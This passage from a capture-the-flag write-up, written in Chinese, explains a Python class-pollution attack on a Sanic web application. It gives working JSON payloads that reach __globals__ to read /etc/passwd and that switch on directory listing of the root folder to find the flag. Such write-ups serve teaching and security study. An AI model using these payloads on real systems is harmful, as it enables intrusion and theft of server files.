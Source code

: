 ```python
{"key":"__class__\\\\.__init__\\\\.__globals__\\\\.__file__","value":"/etc/passwd"}

```

![Pasted image 20240618161151.png](/img/user/Choco%E2%80%98s%20wiki/Notes/media/Pasted%20image%2020240618161151.png)

#### 第二次污染 列出根目录
虽然可以读文件，但是还不知道flag的文件名，所以需要看看咋进一步利用
继续寻找可污染变量，注意到注册的 static 路由会添加 DirectoryHandler 到 route  
跟进static
大致意思就是directory_view为True时，会开启列目录功能，directory_handler中可以获取指定的目录  
跟进这个类发现directory_view和directory  
```python
class DirectoryHandler:  
    """Serve files from a directory.  
  
    Args:        uri (str): The URI to serve the files at.        directory (Path): The directory to serve files from.        directory_view (bool): Whether to show a directory listing or not.        index (Optional[Union[str, Sequence[str]]]): The index file(s) to            serve if the directory is requested. Defaults to None.    """  
    def __init__(  
        self,  
        uri: str,  
        directory: Path,  
        directory_view: bool = False,  
        index: Optional[Union[str, Sequence[str]]] = None,  
    ) -> None
```
总之就是只要将directory污染为根目录，directory_view污染为True，就可以看到根目录的所有文件了

这里引入一个细节，`__mp_main__` 通常出现在使用多处理（multiprocessing）模块时。在运行多处理代码时，尤其是在Windows操作系统上，你可能会看到这样的字符串。这是因为多处理模块在Windows上启动新的子进程时，会重新导入主模块，并将其名字设为 `__mp_main__`。

发现通过 `app.router.name_index['__mp_main__.static']` 可以访问到 `DirectoryHandler`。`DirectoryHandler`的`directory`为`Path`对象，分析发现污染 `__parts` 为分割的路径列表即可。
![Pasted image 20240621144955.png](/img/user/Choco%E2%80%98s%20wiki/Notes/media/Pasted%20image%2020240621144955.png)

所以构造一下poc，将directory_view污染为True:
```python
{"key":"__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory_view","value": "True"}
```

将directory污染为根目录:
```python
"key": "__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\.static.handler.keywords.directory_handler.directory._parts", "value": ['/']}
```

![Pasted image 20240620175720.png](/img/user/Choco%E2%80%98s%20wiki/Notes/media/Pasted%20image%2020240620175720.png)

在通过第一次污染任意文件读取，读到flag
![Pasted image 20240618161754.png](/img/user/Choco%E2%80%98s%20wiki/Notes/media/Pasted%20image%2020240618161754.png)

### 总结
这道题的漏洞段主要在set_方法上，其他就是找链子，需要对框架比较熟悉。
# 参考链接
https://xz.aliyun.com/t/14620
https://mp.weixin.qq.com/s/fhMBt6GUTMBR-VSgMjpLAg